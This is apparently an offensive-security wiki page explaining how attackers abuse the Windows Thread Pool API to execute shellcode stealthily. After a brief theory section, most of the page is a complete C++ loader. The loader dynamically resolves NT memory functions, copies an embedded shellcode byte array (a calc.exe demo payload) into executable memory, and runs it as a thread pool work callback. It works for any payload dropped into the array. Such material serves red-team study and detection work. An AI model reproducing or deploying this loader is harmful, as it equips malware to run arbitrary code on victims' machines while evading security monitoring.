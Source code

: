 # Thread Pool Callback Shellcode Execution

## Theory

Thread Pool API is a mechanism in Windows that allows efficient management of multiple worker threads, enabling asynchronous execution of tasks. The API provides functions such as `CreateThreadpoolWork`, `SubmitThreadpoolWork`, and `WaitForThreadpoolWorkCallbacks` to create and execute work items in a thread pool. Attackers can exploit this functionality to execute shellcode in a stealthy manner by leveraging the thread pool callback mechanism.

#### Key Concepts:

* **Thread Pool**: A collection of worker threads managed by the Windows kernel, allowing efficient execution of asynchronous tasks.
* **Thread Pool Work Item**: A task submitted to the thread pool for execution.
* **Callback Function**: A function executed by a worker thread in response to a work item submission.
* **Execution Flow Hijacking**: By injecting shellcode into memory and registering it as a thread pool callback, an attacker can execute arbitrary code within the context of a legitimate process.

#### Execution Flow

1. **Shellcode Preparation & Memory Setup**:
   * The shellcode is embedded within the executable and stored as a byte array.
   * Memory is allocated in the current process using `NtAllocateVirtualMemory` with `PAGE_READWRITE` permissions.
   * The shellcode is copied to the allocated memory using `NtWriteVirtualMemory`.
   * The memory region containing the shellcode is then marked as `PAGE_EXECUTE_READ` using `NtProtectVirtualMemory`.
2. **Thread Pool Work Item Creation**:
   * `CreateThreadpoolWork` is called with the shellcode address as the callback function.
3. **Submitting the Work Item**:
   * `SubmitThreadpoolWork` enqueues the work item for execution.
4. **Execution**:
   * A worker thread from the pool picks up the work item and executes the shellcode.
5. **Cleanup**:
   * The work item is closed using `CloseThreadpoolWork` to clean-up

## Practice

{% tabs %}
{% tab title="C++" %}
The following code implements this technique:

```cpp
#include <iostream>
#include <windows.h>
#include <psapi.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <tchar.h>

// Add these typedefs and function declarations for the NT functions
typedef NTSTATUS (NTAPI *pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

typedef NTSTATUS (NTAPI *pNtWriteVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T NumberOfBytesToWrite,
    PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS (NTAPI *pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
);

// Define NTSTATUS if not already defined
#ifndef NTSTATUS
typedef LONG NTSTATUS;
#endif


DWORD WINAPI esc_main(LPVOID lpParameter)
{
    DWORD dwSize;
 
    // calc.exe shellcode
    unsigned char decoded[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00};
    SIZE_T length = sizeof(decoded);


    // Load NT functions dynamically
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        std::cerr << "Failed to get handle to ntdll.dll" << std::endl;
        return 1;
    }
    
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    
    if (!NtAllocateVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory) {
        std::cerr << "Failed to get addresses of NT functions" << std::endl;
        return 1;
    }

    //####SYSCALL####
    HANDLE hProc = GetCurrentProcess();
    PVOID base_addr = NULL;
    SIZE_T pnew = length;
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    NTSTATUS status;

    // Allocate memory for shellcode
    status = NtAllocateVirtualMemory(hProc, &base_addr, 0, &pnew, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Write shellcode to allocated memory
    status = NtWriteVirtualMemory(hProc, base_addr, decoded, pnew, &bytesWritten);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Change memory protection to executable
    status = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&pnew, PAGE_EXECUTE_READ, &oldProtect);
    if (status != 0) {
        std::cerr << "NtProtectVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    std::cout << "Executing shellcode using Thread Pool API..." << std::endl;

    // Create thread pool work item with shellcode as callback
    PTP_WORK work = CreateThreadpoolWork((PTP_WORK_CALLBACK)base_addr, NULL, NULL);
    if (!work) {
        std::cerr << "CreateThreadpoolWork failed with error: " << GetLastError() << std::endl;
    }

    // Submit work item to thread pool
    SubmitThreadpoolWork(work);

    // Wait for work to complete
    WaitForThreadpoolWorkCallbacks(work, FALSE);
    CloseThreadpoolWork(work);
    
    std::cout << "Execution completed" << std::endl;
    return 0;
}

int main()
{

    esc_main(NULL);
    return 0;
}
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait" %}

